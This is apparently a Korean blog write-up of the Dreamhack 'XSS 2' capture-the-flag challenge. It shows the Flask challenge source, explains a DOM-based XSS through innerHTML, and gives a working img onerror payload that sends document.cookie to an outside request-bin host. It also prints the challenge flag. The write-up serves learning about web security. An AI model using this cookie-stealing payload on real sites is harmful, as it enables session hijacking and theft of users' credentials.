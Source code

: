 ```yaml
---
title : Dreamhack - XSS 2
categories: [Dreamhack, Webhacking]
tags: [XSS, dreamhack xss2, dreamhack]
date: 2022-03-06 13:40 +0900
---
```


## XSS - 2
<hr style="border-top: 1px solid;"><br>

```python
#!/usr/bin/python3
from flask import Flask, request, render_template
from selenium import webdriver
import urllib
import os

app = Flask(__name__)
app.secret_key = os.urandom(32)

try:
    FLAG = open("./flag.txt", "r").read()
except:
    FLAG = "[**FLAG**]"


def read_url(url, cookie={"name": "name", "value": "value"}):
    cookie.update({"domain": "127.0.0.1"})
    try:
        options = webdriver.ChromeOptions()
        for _ in [
            "headless",
            "window-size=1920x1080",
            "disable-gpu",
            "no-sandbox",
            "disable-dev-shm-usage",
        ]:
            options.add_argument(_)
        driver = webdriver.Chrome("/chromedriver", options=options)
        driver.implicitly_wait(3)
        driver.set_page_load_timeout(3)
        driver.get("http://127.0.0.1:8000/")
        driver.add_cookie(cookie)
        driver.get(url)
    except Exception as e:
        driver.quit()
        # return str(e)
        return False
    driver.quit()
    return True


def check_xss(param, cookie={"name": "name", "value": "value"}):
    url = f"http://127.0.0.1:8000/vuln?param={urllib.parse.quote(param)}"
    return read_url(url, cookie)


@app.route("/")
def index():
    return render_template("index.html")


@app.route("/vuln")
def vuln():
    return render_template("vuln.html")


@app.route("/flag", methods=["GET", "POST"])
def flag():
    if request.method == "GET":
        return render_template("flag.html")
    elif request.method == "POST":
        param = request.form.get("param")
        if not check_xss(param, {"name": "flag", "value": FLAG.strip()}):
            return '<script>alert("wrong??");history.go(-1);</script>'

        return '<script>alert("good");history.go(-1);</script>'


memo_text = ""


@app.route("/memo")
def memo():
    global memo_text
    text = request.args.get("memo", "")
    memo_text += text + "\n"
    return render_template("memo.html", memo=memo_text)


app.run(host="0.0.0.0", port=8000)

```


<br><br>
<hr style="border: 2px solid;">
<br><br>

## Solution
<hr style="border-top: 1px solid;"><br>

flag 페이지에서 보내는 요청을 플래그 쿠키를 가지고 있는 사용자가 읽게 된다.

xss-1 문제와 다르게 이번엔 vuln 페이지가 render_template로 리턴이 되어서 스크립트가 동작하지 않는다.

하지만 vuln 페이지 소스코드를 보면 이런 코드가 있다.

<br>

```html
<div id='vuln'></div>
<script>var x=new URLSearchParams(location.search); document.getElementById('vuln').innerHTML = x.get('param');</script>
```

<br>

innerHTML
: <a href="https://developer.mozilla.org/ko/docs/Web/API/Element/innerHTML" target="_blank">developer.mozilla.org/ko/docs/Web/API/Element/innerHTML</a>

<br>

정리하면 vuln 요소 즉, ```<div id='vuln'>{here}</div>```에서 here 부분의 내용을 수정할 수 있게 해주는 javascript 코드다.

테스트로 ```<h1>TEST</h1>```을 입력해보면 아래와 같이 출력된다.

<br>

![image](https://user-images.githubusercontent.com/52172169/156905431-19765d01-a33b-4e17-8c83-8ae39adde9da.png)

<br>

이 부분을 이용해서 풀 수 있다.

html 태그 안에 이벤트를 넣을 수가 있는데 이벤트 중 onload, onerror 등이 있다. 그 중 onerror를 이용하였다.

<br>

onerror
: <a href="https://www.w3schools.com/jsref/event_onerror.asp" target="_blank">w3schools.com/jsref/event_onerror.asp</a>

<br>

위 사이트를 들어가보면 예시에도 적혀있지만 img 태그를 이용하였다. supported html tag에 사용 가능한 태그가 있다.

따라서 이미지를 로드할 때 에러가 발생하면 자바스크립트를 실행하므로 이를 이용해서 에러를 일으켜 request bin의 서버로 보내면 쿠키 값을 확인할 수 있다. 

<br>

드림핵 툴을 이용해서 풀 수 있다.

Exploit
: ```<img src="" onerror=location.href="https://zbpnwsn.request.dreamhack.games?cookie="+document.cookie>```

<br>

![image](https://user-images.githubusercontent.com/52172169/156905140-c7b715af-188e-4c4c-9b6f-70a9d4134dda.png)

<br>

+ Flag : ```DH{3c01577e9542ec24d68ba0ffb846508f}```

<br><br>
<hr style="border: 2px solid;">
<br><br>
